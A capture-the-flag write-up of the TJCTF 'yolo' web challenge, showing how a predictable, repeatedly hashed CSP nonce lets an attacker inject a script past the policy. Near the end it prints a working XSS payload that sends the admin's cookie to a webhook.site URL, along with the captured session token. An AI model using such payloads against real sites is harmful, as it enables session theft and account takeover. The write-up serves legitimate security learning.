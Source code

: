 # yolo
Category: Web

## Description
I found this website that makes me really emotional because it's so motivational...

[yolo.tjc.tf/](https://yolo.tjc.tf/)

[Admin Bot](https://admin-bot.tjctf.org/yolo)

Attachments: [admin-bot.js](attachments/admin-bot.js), [server.zip](attachments/server.zip)

## Write-up
Upon navigating to the URL, we encounter the following page:

![](solution/image1.png)

When we provide the specified inputs:

![](solution/image2.png)

we receive the following result:

![](solution/image3.png)

Analyzing the page's source code, the following snippet stands out:

```
<body>

    <div id="main">
        <div>
            <h1>you  will Disturb...</h1>
            
                <h2>achieve it.</h2>

                <button id="copy">copy link to share with your friends!</button>
            
        </div>
    </div>

    <script nonce="322fe65fc25573af2aa1131d31f19b5faf50a85f94e7495b82772c969e06b9b5">
        
            document.getElementById("copy").addEventListener("click", () => {
                navigator.clipboard.writeText(window.location.href);
            });
        

        setTimeout(function () {
            document.querySelector('h1').style.opacity = 1;

            setTimeout(function () {
                document.querySelector('h2').style.opacity = 1;
            }, 2000);
        }, 1000);
    </script>
</body>
```

Apart from the generated nonce, the remaining code does not appear particularly interesting.

Examining the provided source code, we notice the following code segment:

```
app.addHook('onRequest', (req, res, next) => {
    if (!req.cookies.token) {
        req.locals = {};
        return next();
    }

    try {
        req.locals = jwt.verify(req.cookies.token, secret);
    } catch (err) {
        req.locals = {};
    }

    req.locals.nonce = req.locals.nonce ?? '47baeefe8a0b0e8276c2f7ea2f24c1cc9deb613a8b9c866f796a892ef9f8e65d';
    req.locals.nonce = crypto.createHash('sha256').update(req.locals.nonce).digest('hex');
    res.header('Content-Security-Policy', `script-src 'nonce-${req.locals.nonce}'; default-src 'self'; style-src 'self' 'nonce-${req.locals.nonce}';`);

    req.locals.userId ??= v4();

    next();
});
```

For every request made, the Content Security Policy (CSP) header is attached. Additionally, a nonce value is used, with its default value set as `47baeefe8a0b0e8276c2f7ea2f24c1cc9deb613a8b9c866f796a892ef9f8e65d`. However, the nonce value is subsequently hashed with SHA256 and updated for each request.

The following snippet demostrates how the state of our `initial_nonce` changes:

```
Request 1: sha256(initial_nonce)
Request 2: sha256(sha256(initial_nonce))
Request 3: sha256(sha256(sha256(initial_nonce)))
Request 4: sha256(sha256(sha256(sha256(initial_nonce))))
...
```

Therefore, it is crucial to keep track of the nonce state. Resetting the nonce to the initial_nonce by clearing our session cookie ensures that the nonce remains consistent when submitting our payload.

Let's attempt to specify some HTML elements and test for injection vulnerabilities:

![](solution/image4.png)

![](solution/image5.png)

As observed, our `<img>` tags are rendered on the page, indicating that the page is susceptible to Cross-Site Scripting (XSS) if we can predict the nonce value when submitting our payload.

Let's simulate the actions of the Admin bot to view what it sees. To obtain a fresh session, we need to clear our cookies. It is vital to meticulously follow the Admin's actions, as any request received by the backend will have the nonce converted.

Here is a snippet of the Admin bot's logic:

```
const page = await ctx.newPage();
await page.goto('https://yolo.tjc.tf', { waitUntil: 'domcontentloaded' });

await sleep(1000);

await page.type('#name', 'admin');
await page.type('#toDo', flag.trim());

await page.click('#submit');

await sleep(500);

await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' });
await sleep(3000);
```

The Admin bot first loads [https://yolo.tjc.tf](https://yolo.tjc.tf), which sets the `initial_nonce` value as `47baeefe8a0b0e8276c2f7ea2f24c1cc9deb613a8b9c866f796a892ef9f8e65d` and sha256 it, (i,e, `sha256(initial_nonce)`). Admin then submits the payload, resulting in `sha256(sha256(initial_nonce))`. Afterward, the Admin navigates to the URL of our choice. In theory, if it accesses our page, the nonce should be predicted to have the value of `sha256(sha256(sha256(initial_nonce)))` or `6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36`.

Using this information, we can craft an XSS payload designed to steal cookies, incorporating the calculated nonce value:

```
</h1><script nonce="6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36">location.href="https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/" + document.cookie</script><h1>
```

This generates the URL [https://yolo.tjc.tf/do/81fb7dd2-bb44-4b4b-9bbd-58844944faac](https://yolo.tjc.tf/do/81fb7dd2-bb44-4b4b-9bbd-58844944faac). When we submit the URL to the Admin bot, we intercept a request on our web hook with the following URL: [https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE2ODU5ODY0MTYsIm5vbmNlIjoiNmNmYTQ2MGMzNGQzYjQ0ODc2N2ViNDdlZGI5YTczZDAzMDYxZTkxM2NkOGE3ZDcxMjM0MGNjZGY4YjM0MmMzNiIsInVzZXJJZCI6ImZmMThlZDE4LTEzYmMtNDM2NS04NjIwLTcyNTY5NzAzODNjMCJ9.128M5qYDtcmVNVRn32j0UcR2JRWC7S7Ob_4vIHOkdBg](https://webhook.site/2cb2e48a-7c4c-4bab-9567-1cd52ad4c253/token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE2ODU5ODY0MTYsIm5vbmNlIjoiNmNmYTQ2MGMzNGQzYjQ0ODc2N2ViNDdlZGI5YTczZDAzMDYxZTkxM2NkOGE3ZDcxMjM0MGNjZGY4YjM0MmMzNiIsInVzZXJJZCI6ImZmMThlZDE4LTEzYmMtNDM2NS04NjIwLTcyNTY5NzAzODNjMCJ9.128M5qYDtcmVNVRn32j0UcR2JRWC7S7Ob_4vIHOkdBg)


A simple base64 decode reveals the Admin's session cookie, along with the user ID `ff18ed18-13bc-4365-8620-7256970383c0`.

By accessing the Admin's URL via the user ID at [https://yolo.tjc.tf/do/ff18ed18-13bc-4365-8620-7256970383c0](https://yolo.tjc.tf/do/ff18ed18-13bc-4365-8620-7256970383c0), we can access the contents which revealed the flag.

![](solution/image7.png)

Flag: `tjctf{y0u_0n1y_1iv3_0nc3_5ab61b33}`
